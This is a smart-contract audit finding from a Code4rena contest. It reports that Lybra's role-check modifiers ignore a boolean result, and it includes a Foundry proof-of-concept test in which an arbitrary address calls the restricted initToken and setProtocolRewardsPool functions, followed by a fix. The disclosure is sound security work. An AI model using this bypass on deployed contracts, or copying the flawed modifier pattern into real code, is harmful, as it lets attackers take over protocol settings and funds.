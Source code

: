 ## Tags

- bug
- 3 (High Risk)
- high quality report
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- H-03

# [Incorrectly implemented modifiers in LybraConfigurator.sol allow any address to call functions that are supposed to be restricted](https://github.com/code-423n4/2023-06-lybra-findings/issues/704) 

# Lines of code

https://github.com/code-423n4/2023-06-lybra/blob/main/contracts/lybra/configuration/LybraConfigurator.sol#L85-L93


# Vulnerability details

## Impact
The modifiers onlyRole(bytes32 role) and checkRole(bytes32 role) are not implemented correctly. This would allow anybody to call sensitive functions that should be restricted.

## Proof of Concept
For the POC, I set up a new foundry projects, and copied the folders lybra, mocks and OFT in the src folder of the new project. I installed the dependencies and then I created a file POCs.t.sol in the test folder. Here is the code that shows than a random address can call sensitive functions that should be restricted:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/lybra/configuration/LybraConfigurator.sol";
import "../src/lybra/governance/GovernanceTimelock.sol";
import "../src/lybra/miner/esLBRBoost.sol";

contract POCsTest is Test {
    Configurator public lybraConfigurator;
    GovernanceTimelock public governance;
    esLBRBoost public boost;

    address public dao = makeAddr("dao");
    address public curvePool = makeAddr("curvePool");
    address public randomUser = makeAddr("randomUser");
    address public admin = makeAddr("admin");

    address public eusd = makeAddr("eusd");
    address public pEusd = makeAddr("pEusd");

    address proposerOne = makeAddr("proposerOne");
    address executorOne = makeAddr("executorOne");

    address[] proposers = [proposerOne];
    address[] executors = [executorOne];

    address public rewardsPool = makeAddr("rewardsPool");

    function setUp() public {
        governance = new GovernanceTimelock(10000, proposers, executors, admin);
        lybraConfigurator = new Configurator(address(governance), curvePool);
        boost = new esLBRBoost();
    }

    function testIncorrectlyImplementedModifiers() public {
        console.log("EUSD BEFORE", address(lybraConfigurator.EUSD()));
        vm.prank(randomUser);
        lybraConfigurator.initToken(eusd, pEusd);
        console.log("EUSD AFTER", address(lybraConfigurator.EUSD()));

        console.log("RewardsPool BEFORE", address(lybraConfigurator.lybraProtocolRewardsPool()));
        vm.prank(randomUser);
        lybraConfigurator.setProtocolRewardsPool(rewardsPool);
        console.log("RewardsPool AFTER", address(lybraConfigurator.lybraProtocolRewardsPool()));
    }
}
```

## Tools Used
Manual Review

## Recommended Mitigation Steps
Wrap the 2 function calls in a require statement:

In modifier onlyRole(bytes32 role), instead of GovernanceTimelock.checkOnlyRole(role, msg.sender); it should be something like require(GovernanceTimelock.checkOnlyRole(role, msg.sender), "Not Authorized").

The same goes for the checkRole(bytes32 role) modifier.


## Assessed type

Access Control